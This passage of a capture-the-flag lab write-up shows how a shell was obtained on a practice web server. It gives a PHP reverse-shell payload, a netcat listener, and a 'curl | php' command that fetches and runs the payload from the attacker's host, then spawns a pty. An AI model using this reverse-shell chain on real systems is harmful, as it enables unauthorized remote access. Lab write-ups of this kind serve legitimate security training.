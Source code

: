 ```sh
```

Time to get proper shell. Preparing payload:

```php
#pshell.php
<?php
$sock=fsockopen("10.XX.XX.XXX",443);$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Serve it on the python HTTP server:

```sh
$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start `netcat` to listen for reverse shell:
```text
$ nc -lvnp 443

listening on [any] 443 ...
```

Execute on the web:

```sh
curl 10.XX.XX.XXX/pshell.php | php
```
And on the `netcat` we can see:

```text
$ nc -lvnp 443

listening on [any] 443 ...
connect to [10.XX.XX.XXX] from (UNKNOWN) [10.10.124.36] 57104
/bin/sh: 0: can't access tty; job control turned off
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Semi-stabilize shell (read more in _Additional readings_, "Upgrading Simple Shells"), alias the `ls` for clearer output.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
alias ls="ls -lah"
```
